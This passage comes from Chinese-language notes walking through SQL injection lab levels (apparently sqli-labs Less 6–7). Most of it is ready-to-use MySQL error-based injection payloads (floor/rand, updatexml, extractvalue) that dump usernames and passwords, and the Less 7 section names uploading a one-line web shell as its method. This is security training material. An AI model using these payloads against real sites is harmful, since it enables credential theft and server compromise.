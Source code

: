   **floor报错方法：**

   ```
   ?id=-1'union select count(*),1, concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+
   ```

   字段有：id,username,password,level,id,username,password

4. **取值**

   **updatexml & extractvalue()方法：**

   ```
   ?id=0' and updatexml(1, concat('~',(select group_concat(username,':',password) from users),'~'), 1) --+
   
   ?id=0' and extractvalue(1, concat('~',(select group_concat(username,':',password) from users),'~')) --+
   
   ?id=0' and extractvalue(1, concat('~',(select substring(group_concat(username,':',password),10) from users),'~')) --+	//从第10个字符开始，之后的所有个字符,一次输出最多32个字符
   
   
   ?id=0' and extractvalue(1, concat('~',(select username from users limit 1,1),(select password from users limit 1,1),'~')) --+	//一个一个更改limit的第一个值，两个一起
   ```

   **floor报错方法：**

   ```
   ?id=-1'union select count(*),1, concat('~',(select username from users limit 1,1),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+
   ```

   这里要一个一个输出结果， “limit 1,1”，只需改变第一个值





### less 7

#### 类型：

字符型注入&上传木马

#### 解题方法

file上传一句话木马  

#### 解题

1. **判断注入形式**

   ```
   ?id=1		//正常
   ?id=1'		//报错
   ?id=1"		//正常
   基本判断为单引号字符型注入
   ```
